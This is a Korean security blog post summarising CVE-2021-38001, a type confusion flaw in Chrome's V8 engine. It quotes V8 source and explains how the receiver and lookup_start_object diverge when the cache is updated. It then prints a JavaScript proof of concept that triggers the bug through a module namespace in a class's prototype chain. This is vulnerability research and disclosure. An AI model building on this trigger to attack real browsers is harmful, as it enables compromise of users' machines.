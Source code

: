 ```yaml
---
title: "[하루한줄] CVE-2021-38001: Chrome V8의 Type Confusion 취약점"
author: L0ch
tags: [cve, l0ch, chrome, cve-2021-38001, v8, cache, type confusion]
categories: [1day1line]
date: 2021-11-18 14:00:00
cc: true
index_img: /img/1day1line.png
---
```


## URL

- https://github.com/vngkv123/articles/blob/main/CVE-2021-38001.md

## Target

- Chrome V8

## Explain

지난 8월에 이어 Chrome의 V8 엔진에서 Type Connfusion 취약점이 발견되어 PoC 및 상세 정보가  공개되었습니다.

**[CVE-2021-30517: Chrome V8 엔진의 Type Confusion 취약점](https://hackyboiz.github.io/2021/08/17/l0ch/2021-08-17/)**

취약점은 미스된 캐시를 업데이트하는 과정에서  `[accessor-assembler.cc](<http://accessor-assembler.cc>)`와 `ic.cc` 사이에 발생합니다. 다음은  `accessor-assembler.cc` 의 코드 일부입니다.

```c
//accessor-assembler.cc
Comment("module export");
TNode<UintPtrT> index =
	DecodeWord<LoadHandler::ExportsIndexBits>(handler_word);

// p->receiver로 캐스팅해 속성 접근
TNode<Module> module = LoadObjectField<Module>(
	CAST(p->receiver()), JSModuleNamespace::kModuleOffset);

TNode<ObjectHashTable> exports =
	LoadObjectField<ObjectHashTable>(module, Module::kExportsOffset);
TNode<Cell> cell = CAST(LoadFixedArrayElement(exports, index));
```

캐시 미스가 발생하면 `ComputeHander`를 호출해 캐시를 업데이트합니다. `ic.cc`는 `JSModuleNamespace`의 `lookup_start_object(holer)`를 기반으로 캐시를 업데이트하지만 업데이트 후 `accessor-assembler.cc`에서 이루어지는 실제 속성 액세스 프로세스는 `JSModuleNamespace`에 없는 `receiver` 객체에서 실행됩니다. 따라서 `receiver`와 `lookup_start_object(holder)`가 다르면 Type Confusion이 발생하게 됩니다.

취약점에 대한 POC는 다음과 같습니다.

```c
import * as module from "1.mjs";

function poc() {
    class C {
        m() {
            return super.y;
        }
    }

    let zz = {aa: 1, bb: 2};
    // receiver vs holder type confusion
    function trigger() {
        // set lookup_start_object
        C.prototype.__proto__ = zz;
        // set holder
        C.prototype.__proto__.__proto__ = module;

        // "c" is receiver in ComputeHandler [ic.cc]
        // "module" is holder
        // "zz" is lookup_start_object
        let c = new C();

        c.x0 = 0x42424242 / 2;
        c.x1 = 0x42424242 / 2;
        c.x2 = 0x42424242 / 2;
        c.x3 = 0x42424242 / 2;
        c.x4 = 0x42424242 / 2;

        // LoadWithReceiverIC_Miss
        // => UpdateCaches (Monomorphic)
        // CheckObjectType with "receiver"
        let res = c.m();
    }
    
    for (let i = 0; i < 0x100; i++) {
        trigger();
    }
}

poc();
```